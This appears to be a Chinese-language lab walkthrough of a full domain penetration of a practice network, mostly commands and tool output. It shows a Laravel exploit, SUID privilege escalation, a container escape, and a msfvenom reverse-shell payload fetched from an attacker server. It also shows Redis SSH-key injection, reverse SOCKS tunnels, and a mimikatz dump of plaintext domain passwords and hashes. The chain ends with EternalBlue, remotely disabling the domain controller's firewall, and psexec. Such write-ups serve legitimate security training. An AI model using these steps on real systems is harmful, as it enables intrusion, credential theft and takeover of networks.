### 环境准备

- 物理机:192.168.0.7
- kali:192.168.0.18
- web1:192.168.0.14 / 192.168.52.10 
- web2:192.168.52.20 / 192.168.93.10
- pc1:192.168.52.30 / 192.168.93.20
- pc2:192.168.93.40
- server:192.168.93.30

*****

### 资产扫描



- 这里可以发现web1开启了`22`,`80`,`81`,`6379`三个端口

*****

### 尝试`81`端口`laravel`框架漏洞





- 使用哥斯拉连接,发现是`www-data`用户
- 使用命令查看是否处于容器环境

```bash
cat /proc/self/cgroup
```



*****

### 提权

- 尝试进行`linux suid提权`(这里需要`注意`,不知道为啥哥斯拉提权不成功,所以我们需要反弹shell到kali上)
- 执行下面的命令,搜索具有SUID或4000权限的文件

```bash
find / -perm -u=s -type f 2>/dev/null
```



```cmd
cd /tmp
echo "/bin/sh" >ps
chmod 777 ps
export PATH=/tmp:$PATH
echo $PATH
cd /home/jobs
python -c 'import pty; pty.spawn("/bin/bash")'
```



- 成功提权,开始尝试`docker特权逃逸`

*****

### 传入msf

- 将/dev/sda1挂载到/hack

```bash
mkdir /hack
ls /dev
mount /dev/sda1 /hack
```

- 生成msf马,让容器下载

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.7 LPORT=4444 -f elf -o ./shell.elf
python -m http.server 8000
```





- 运行

```cmd
./shell.elf
```

- 然后使用msfconsole监听

```cmd
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.7
set LPORT 4444
run
```



- 看不到任何信息

*****

### 尝试redis未授权访问写公钥(1台)

- 在本地生成公钥

```cmd
ssh-keygen -t rsa
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt
cat key.txt | redis-cli -h 192.168.0.14 -x set xxx
```

- 尝试连接ssh



- 成功连接

*****

### 域渗透-横向移动



```cmd
root@ubuntu:~# ./fscan -h 192.168.52.0/24
┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.0

[2025-03-17 22:39:40] [INFO] 暴力破解线程数: 1
[2025-03-17 22:39:40] [INFO] 开始信息扫描
[2025-03-17 22:39:40] [INFO] CIDR范围: 192.168.52.0-192.168.52.255
[2025-03-17 22:39:40] [INFO] 生成IP范围: 192.168.52.0.%!d(string=192.168.52.255) - %!s(MISSING).%!d(MISSING)
[2025-03-17 22:39:40] [INFO] 解析CIDR 192.168.52.0/24 -> IP范围 192.168.52.0-192.168.52.255
[2025-03-17 22:39:40] [INFO] 最终有效主机数量: 256
[2025-03-17 22:39:40] [INFO] 开始主机扫描
[2025-03-17 22:39:40] [SUCCESS] 目标 192.168.52.10   存活 (ICMP)
[2025-03-17 22:39:40] [SUCCESS] 目标 192.168.52.1    存活 (ICMP)
[2025-03-17 22:39:41] [SUCCESS] 目标 192.168.52.2    存活 (ICMP)
[2025-03-17 22:39:41] [SUCCESS] 目标 192.168.52.20   存活 (ICMP)
[2025-03-17 22:39:41] [SUCCESS] 目标 192.168.52.30   存活 (ICMP)
[2025-03-17 22:39:43] [INFO] 存活主机数量: 5
[2025-03-17 22:39:43] [INFO] 有效端口数量: 233
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.10:81
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.10:80
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.20:22
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.10:22
[2025-03-17 22:39:44] [SUCCESS] 服务识别 192.168.52.10:22 => [ssh] 版本:7.6p1 Ubuntu 4ubuntu0.5 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.5.]
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.30:135
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.1:135
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.30:110
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.30:445
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.1:445
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.30:139
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.1:139
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.10:6379
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.20:8000
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.1:7680
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.30:8080
[2025-03-17 22:39:44] [SUCCESS] 端口开放 192.168.52.1:18080
[2025-03-17 22:39:44] [SUCCESS] 服务识别 192.168.52.20:22 => [ssh] 版本:6.6.1p1 Ubuntu 2ubuntu2.13 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2.13.]
[2025-03-17 22:39:44] [SUCCESS] 服务识别 192.168.52.30:110 => [pop3] Banner:[+OK TDpop3Server 1.0 POP3 Server ready..]
[2025-03-17 22:39:44] [SUCCESS] 服务识别 192.168.52.1:18080 =>
[2025-03-17 22:39:49] [SUCCESS] 服务识别 192.168.52.10:81 => [http] 版本:1.14.0 产品:nginx 系统:Linux 信息:Ubuntu
[2025-03-17 22:39:49] [SUCCESS] 服务识别 192.168.52.30:445 =>
[2025-03-17 22:39:49] [SUCCESS] 服务识别 192.168.52.1:445 =>
[2025-03-17 22:39:49] [SUCCESS] 服务识别 192.168.52.30:139 =>  Banner:[.]
[2025-03-17 22:39:49] [SUCCESS] 服务识别 192.168.52.1:139 =>  Banner:[.]
[2025-03-17 22:39:49] [SUCCESS] 服务识别 192.168.52.10:6379 => [redis] 版本:2.8.17 产品:Redis key-value store
[2025-03-17 22:39:49] [SUCCESS] 服务识别 192.168.52.30:8080 => [http] 产品:nginx
[2025-03-17 22:39:55] [SUCCESS] 服务识别 192.168.52.20:8000 => [http]
[2025-03-17 22:39:56] [SUCCESS] 服务识别 192.168.52.10:80 => [http] 版本:1.14.0 产品:nginx 系统:Linux 信息:Ubuntu
[2025-03-17 22:39:59] [SUCCESS] 服务识别 192.168.52.1:7680 =>
[2025-03-17 22:40:49] [SUCCESS] 服务识别 192.168.52.30:135 =>
[2025-03-17 22:40:49] [SUCCESS] 服务识别 192.168.52.1:135 =>
[2025-03-17 22:40:49] [INFO] 存活端口数量: 16
[2025-03-17 22:40:49] [INFO] 开始漏洞扫描
[2025-03-17 22:40:49] [INFO] 加载的插件: findnet, ms17010, netbios, pop3, redis, smb, smb2, smbghost, ssh, webpoc, webtitle
[2025-03-17 22:40:49] [SUCCESS] NetInfo 扫描结果
目标主机: 192.168.52.1
主机名: WINDOWS-GFM2C73
发现的网络接口:
   IPv4地址:
      └─ 192.168.93.1
      └─ 192.168.0.100
      └─ 192.168.52.1
      └─ 13.0.0.1
   IPv6地址:
      └─ 240e:361:445:6810:79cb:c49e:10fb:ead8
      └─ 240e:361:445:6810:c03f:af33:8c4b:9da9
      └─ 240e:361:445:6810:e22e:bff:fe90:59ed
[2025-03-17 22:40:49] [SUCCESS] NetBios 192.168.52.1    WORKGROUP\WINDOWS-GFM2C73
[2025-03-17 22:40:49] [SUCCESS] NetInfo 扫描结果
目标主机: 192.168.52.30
主机名: PC1
发现的网络接口:
   IPv4地址:
      └─ 192.168.52.30
[2025-03-17 22:40:49] [SUCCESS] 网站标题 http://192.168.52.30:8080 状态码:200 长度:10065  标题:通达OA网络智能办公系统
[2025-03-17 22:40:49] [SUCCESS] 发现漏洞 192.168.52.30 [Windows 7 Professional 7601 Service Pack 1] MS17-010
[2025-03-17 22:40:49] [SUCCESS] NetBios 192.168.52.30   PC1.whoamianony.org                 Windows 7 Professional 7601 Service Pack 1
[2025-03-17 22:40:49] [SUCCESS] 发现指纹 目标: http://192.168.52.30:8080 指纹: [通达OA]
[2025-03-17 22:40:50] [SUCCESS] 网站标题 http://192.168.52.10:81   状态码:200 长度:17474  标题:Laravel
[2025-03-17 22:40:50] [SUCCESS] 网站标题 http://192.168.52.20:8000 状态码:200 长度:17474  标题:Laravel
[2025-03-17 22:40:50] [SUCCESS] 发现指纹 目标: http://192.168.52.10:81   指纹: [Laravel]
[2025-03-17 22:40:50] [SUCCESS] 发现指纹 目标: http://192.168.52.20:8000 指纹: [Laravel]
[2025-03-17 22:40:50] [SUCCESS] 目标: http://192.168.52.30:8080
  漏洞类型: tongda-user-session-disclosure
  漏洞名称:
  详细信息:
        author:kzaopa(https://github.com/kzaopa)
        links:http://wiki.peiqi.tech/wiki/oa/%E9%80%9A%E8%BE%BEOA/%E9%80%9A%E8%BE%BEOA%20v11.7%20auth_mobi.php%20%E5%9C%A8%E7%BA%BF%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E.html
https://www.cnblogs.com/T0uch/p/14475551.html
https://s1xhcl.github.io/2021/03/13/%E9%80%9A%E8%BE%BEOA-v11-7-%E5%9C%A8%E7%BA%BF%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E6%BC%8F%E6%B4%9E/
        description:通达OA v11.7 中存在某接口查询在线用户，当用户在线时会返回 PHPSESSION使其可登录后台系统

[2025-03-17 22:40:52] [SUCCESS] Redis 192.168.52.10:6379 发现未授权访问 文件位置:/var/spool/cron/authorized_keys
[2025-03-17 22:40:54] [SUCCESS] Redis 192.168.52.10:6379 可写入路径 /root/.ssh/
[2025-03-17 22:40:54] [SUCCESS] Redis 192.168.52.10:6379 可写入路径 /var/spool/cron/
[2025-03-17 22:40:56] [SUCCESS] Redis无密码连接成功: 192.168.52.10:6379
[2025-03-17 22:41:06] [SUCCESS] 目标: http://192.168.52.10:81
  漏洞类型: poc-yaml-laravel-cve-2021-3129
  漏洞名称:
  详细信息:
        author:Jarcis-cy(https://github.com/Jarcis-cy)
        links:https://github.com/vulhub/vulhub/blob/master/laravel/CVE-2021-3129
[2025-03-17 22:41:07] [SUCCESS] 目标: http://192.168.52.20:8000
  漏洞类型: poc-yaml-laravel-cve-2021-3129
  漏洞名称:
  详细信息:
        author:Jarcis-cy(https://github.com/Jarcis-cy)
        links:https://github.com/vulhub/vulhub/blob/master/laravel/CVE-2021-3129
```

*****

### 搭建第二层隧道(2台)

- 使用`ew`与攻击机建立socks连接

```bash
#本机执行
ew_for_Win.exe -s rcsocks -l 1080 -e 1234

#靶机执行
./ew_for_linux64 -s rssocks -d 192.168.0.7 -e 1234
```



- 配置代理规则



- 访问之前收集的站点



- 使用`通达oa`漏洞检测工具直接打,F12获取Cookie(只要KEY之前的部分)





- 本地文件包含成功`getshell`,配置一下哥斯拉代理并连接(配置里改)



- 传入`cs`抓取明文密码

```cmd
[03/18 14:04:58] beacon> logonpasswords
[03/18 14:04:59] [*] Process Inject using fork and run.
[03/18 14:04:59] [*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[03/18 14:04:59] [+] host called home, sent: 313860 bytes
[03/18 14:05:01] [+] received output:

Authentication Id : 0 ; 15745542 (00000000:00f04206)
Session           : CachedInteractive from 1
User Name         : Administrator
Domain            : WHOAMIANONY
Logon Server      : DC
Logon Time        : 2025/3/18 9:55:29
SID               : S-1-5-21-1315137663-3706837544-1429009142-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * LM       : 56b0cd8b125c05055e2dd9e955f18034
	 * NTLM     : ab89b1295e69d353dd7614c7a3a80cec
	 * SHA1     : 2bc4124300a6a8fc0ca10891823d36c64e4b3a40
	tspkg :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * Password : Whoami2021
	wdigest :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * Password : Whoami2021
	kerberos :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY.ORG
	 * Password : Whoami2021
	ssp :	
	credman :	

Authentication Id : 0 ; 792062 (00000000:000c15fe)
Session           : CachedInteractive from 1
User Name         : Administrator
Domain            : WHOAMIANONY
Logon Server      : DC
Logon Time        : 2025/3/13 17:29:39
SID               : S-1-5-21-1315137663-3706837544-1429009142-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * LM       : 56b0cd8b125c05055e2dd9e955f18034
	 * NTLM     : ab89b1295e69d353dd7614c7a3a80cec
	 * SHA1     : 2bc4124300a6a8fc0ca10891823d36c64e4b3a40
	tspkg :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * Password : Whoami2021
	wdigest :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * Password : Whoami2021
	kerberos :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY.ORG
	 * Password : Whoami2021
	ssp :	
	credman :	

Authentication Id : 0 ; 520776 (00000000:0007f248)
Session           : Interactive from 1
User Name         : bunny
Domain            : WHOAMIANONY
Logon Server      : DC
Logon Time        : 2025/3/13 17:28:22
SID               : S-1-5-21-1315137663-3706837544-1429009142-1112
	msv :	
	 [00000003] Primary
	 * Username : bunny
	 * Domain   : WHOAMIANONY
	 * LM       : 7de10bf327ef7f2ac6ebe8776a153feb
	 * NTLM     : cc567d5556030b7356ee4915ff098c8f
	 * SHA1     : 3747632756191e3350e53211c63f804eb163638f
	tspkg :	
	 * Username : bunny
	 * Domain   : WHOAMIANONY
	 * Password : Bunny2021
	wdigest :	
	 * Username : bunny
	 * Domain   : WHOAMIANONY
	 * Password : Bunny2021
	kerberos :	
	 * Username : bunny
	 * Domain   : WHOAMIANONY.ORG
	 * Password : Bunny2021
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 2025/3/13 17:27:47
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : PC1$
Domain            : WHOAMIANONY
Logon Server      : (null)
Logon Time        : 2025/3/13 17:27:46
SID               : S-1-5-20
	msv :	
	 [00000003] Primary
	 * Username : PC1$
	 * Domain   : WHOAMIANONY
	 * NTLM     : 3e6a3d8c713b4821eaa51aab25f52074
	 * SHA1     : d8e1318a24c64b8fcc89dc8609b09af50342bacf
	tspkg :	
	wdigest :	
	 * Username : PC1$
	 * Domain   : WHOAMIANONY
	 * Password : %Yn!@ZW,eWz5>[!hh;H.(&n(yh^2YADmU*2bVx<N#yvw.9MTwmi;84''uRaucL)mw7I42S>sUE#r&u]vz6\/:5A.s5nLrko+zfn@])/"$V6?sDZel=f>[ol;
	kerberos :	
	 * Username : pc1$
	 * Domain   : whoamianony.org
	 * Password : %Yn!@ZW,eWz5>[!hh;H.(&n(yh^2YADmU*2bVx<N#yvw.9MTwmi;84''uRaucL)mw7I42S>sUE#r&u]vz6\/:5A.s5nLrko+zfn@])/"$V6?sDZel=f>[ol;
	ssp :	
	credman :	

Authentication Id : 0 ; 53254 (00000000:0000d006)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 2025/3/13 17:27:42
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : PC1$
	 * Domain   : WHOAMIANONY
	 * NTLM     : 3e6a3d8c713b4821eaa51aab25f52074
	 * SHA1     : d8e1318a24c64b8fcc89dc8609b09af50342bacf
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : PC1$
Domain            : WHOAMIANONY
Logon Server      : (null)
Logon Time        : 2025/3/13 17:27:42
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : PC1$
	 * Domain   : WHOAMIANONY
	 * Password : %Yn!@ZW,eWz5>[!hh;H.(&n(yh^2YADmU*2bVx<N#yvw.9MTwmi;84''uRaucL)mw7I42S>sUE#r&u]vz6\/:5A.s5nLrko+zfn@])/"$V6?sDZel=f>[ol;
	kerberos :	
	 * Username : pc1$
	 * Domain   : WHOAMIANONY.ORG
	 * Password : %Yn!@ZW,eWz5>[!hh;H.(&n(yh^2YADmU*2bVx<N#yvw.9MTwmi;84''uRaucL)mw7I42S>sUE#r&u]vz6\/:5A.s5nLrko+zfn@])/"$V6?sDZel=f>[ol;
	ssp :	
	credman :	
```

**Administrator** 账户：

```cmd
 * Username : Administrator
 * Domain   : WHOAMIANONY
 * Password : Whoami2021
```

这个 `Whoami2021` 就是明文密码，可以直接使用。

**bunny** 账户：

```cmd
 * Username : bunny
 * Domain   : WHOAMIANONY
 * Password : Bunny2021
```

`Bunny2021` 也是可直接使用的明文密码。

*****

### 搭建第三层隧道

- 同理建立socks连接

```cmd
#本机执行
ew_for_Win.exe -s rcsocks -l 1081 -e 5678

#靶机执行
ew_for_Win.exe -s rssocks -d 192.168.0.7 -e 5678
```



- 目前第三层内网还存在两个主机`192.168.93.40`和`192.168.93.40`

*****

### 尝试永恒之蓝(2台)

- 进入msfconsole

```cmd
setg Proxies socks5:127.0.0.1:1081
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.93.40
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.40
set lport 4444
exploit
```



- 成功拿下权限,最后一台`192.168.93.30`,还记得我们前面拿的域管理员账号吗
- 现在直接连接域控关闭防火墙

```cmd
net use \\192.168.93.30\ipc$ "Whoami2021" /user:"Administrator"
sc \\192.168.93.30 create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\192.168.93.30 start unablefirewall
```


- msf

```cmd
use exploit/windows/smb/psexec
set rhosts 192.168.93.30
set SMBUser administrator
set SMBPass Whoami2021
set payload windows/meterpreter/bind_tcp
set rhost 192.168.93.30
run
```



- 到这里整个`域渗透`就结束了